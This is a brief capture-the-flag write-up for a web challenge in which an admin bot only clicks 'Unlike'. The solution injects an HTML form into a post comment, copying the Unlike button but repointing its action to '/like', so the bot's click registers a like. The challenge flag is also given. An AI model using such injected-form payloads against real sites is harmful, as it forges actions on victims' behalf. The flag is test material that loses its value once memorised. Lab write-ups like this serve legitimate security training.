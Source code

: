 |---------- Challenge prompt ----------|

We do not need tons of like, we need only one like from a special person. 
But this person hate everybody and click only to the Unlike button. 
techcamp.jinblack.it:2011

|---------- Challenge solution ----------|

you can navigate to the website given by thew website 
register an account and log in. 
when making a post, in the comment field you can put a copy and paste of the unlike button
but changing the action to "/like" like this:

<form name="senderform" id="senderform" action="/like" method="POST">
    <button type="submit" name="unlike" value="unlike" class="btn btn-danger">Unlike</button>
    <input type="hidden" id="message_id" name="message_id" value={change with your post id, which is the id of the latest post +1}>
</form>

|---------- Challenge flag ----------|

flag{admin_likes_you_post!}